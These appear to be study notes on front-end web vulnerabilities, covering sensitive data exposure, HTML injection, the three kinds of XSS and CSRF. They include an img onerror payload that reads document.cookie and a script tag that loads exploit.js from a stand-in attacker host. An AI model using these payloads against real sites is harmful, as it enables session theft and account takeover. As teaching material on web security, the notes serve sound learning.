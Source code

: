# Front End Vulnerabilities

## Sensitive Data Exposure

It refers to the availability of sensitive data in clear-text to the end-user.

Sometimes we can find **credentials, hashes**, or other sensitive data hidden in the components of a web page's source code or within external JavaScript code being imported.

## HTML Injection

Some user input will not make it to the backend and is processed and redered in the frontent. So, it's critical to validate and sanitize in front and backend as well.

**HTML Injection** happens when unfiltered user input is displayed on the page.

So, when a user has complete control of how their input is displayed, the user can provide html code, and the browser will display it as part of the page.

This can contain then malicious HTML code, like an external login form, etc.

## Cross-Site Scripting (XSS)
HTML Injection can be utilized sometimes to inject `JavaScript` code, thus performing **Cross-Site Scripting**.

So, this means that if we can execute code on the victim's machine, potentially we can access it's account or even their machine.

There are three types of XSS:
- **Reflected XSS** (When user input is displayed on the page after processing (e.g. search result or error message)).
- **Stored XSS** (When user input is stored on backend database, and then displayed upon retrieval, like posts or comments).
- **DOM XSS** (When user input is directly shown in the browser and written to an HTML DOM object like a vulnerable username or page title).

An example could be injecting the following JavaScript code when the input is not validated:

```js
<img src=/ onerror=alert(document.cookie)>
```

## Cross-Site Request Forgery (CSRF)

This attack may utilize the XSS vulnerability to perform certain queries, and API calls on a web app that the victim is authenticated to.

This allows the attacker to perform actions as the authenticated user.

An example is to craft a JS payload that changes the victim's password, and once the victim views the payload on the vulnerable page, like a comment containing the JS CSRF payload, the JS would execute automatically.

So, by using the victim's logged-in session it will change the password.

We can also load a remote javascript file:

```html
<script src=//www.attacker.com/exploit.js></script>
```


